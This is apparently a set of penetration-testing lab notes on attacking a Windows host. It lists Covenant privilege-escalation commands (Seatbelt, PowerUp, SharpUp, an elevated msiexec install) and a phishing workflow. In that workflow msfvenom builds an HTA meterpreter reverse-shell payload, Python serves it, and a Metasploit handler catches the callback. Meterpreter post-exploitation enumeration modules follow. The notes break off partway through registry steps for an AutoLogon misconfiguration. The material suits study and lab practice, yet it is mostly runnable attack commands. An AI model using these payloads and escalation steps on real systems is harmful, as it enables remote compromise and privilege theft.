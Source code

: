 ### Covenant Commands
- `whoami`
- `Seatbelt -group=all`
- `PowerShellImport`
	- `PowerUp.ps1`
	- Specific to `PowerUp`:
		- `powershell invoke-allchecks`
- `Seatbelt WindowsAutoLogon`
![image](https://0xc0rvu5.github.io/docs/assets/images/20221124143738.png)
- `SharpUp audit`
- `ChangeDirectory C:\Users\Public`
- `shell msiexec /quiet /qn /i MayorSecInstaller.msi`
	- Refer too *AlwaysInstallElevated Misconfiguration and Exploitation with Covenant* section


### Email Phishing With Metasploit and *.hta* File Extension
- On kali host:
	- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=443 -f hta-psh -o Benefits.hta`
	- Transfer `Benefits.hta` over to Windows host-machine
		- `python3 -m http.server 80`
		- On Windows host-machine browse to:
			- `http://192.168.3.28/Benefits.hta`
			- Execute the file on host system  **Windows defender needs to be turned off for this and Microsoft Word needs to be present on the host machine**
	- Start Metasploit:
		- `msfconsole`
			- `use /exploit/multi/handle`
			- `set payload windows/x64/meterpreter/reverse_tcp`
			- `set lhost eth0`
			- `set lport 443`
			- `exploit`

### Meterpreter Relevant commands
- `sysinfo`
- `getuid`
- `ipconfig`
- `arp`
- `netstat -ano`
- `run post/windows/gatherer/enum_services`
- `run post/windows/gather/enum_applications`
- `run post/windows/gather/enum_domains` **No longer works on MSF6 (and apparently MSF5 also)**
- `route`
- `run post/multi/recon/local_exploit_suggester` **Top Tier Windows Command**
![image](https://0xc0rvu5.github.io/docs/assets/images/20221124160132.png)
- `run post/windows/gather/win_privs`

### AutoLogon Misconfiguration and Exploration
- Go to `Registry Editor`
	- `HKEY_LOCAL_MACHINE`
		- `Software`
			- `Microsoft`
				- `Windows NT`
					- `CurrentVersion`
						- Click: `Winlogon`
							- At top of list click `AutoAdminLogon`
								- Set `Value Data:`
									- `1`
						- Right click: `Winlogon`
							- Create 3 separate registry entry names with the corresponding values
							- `New`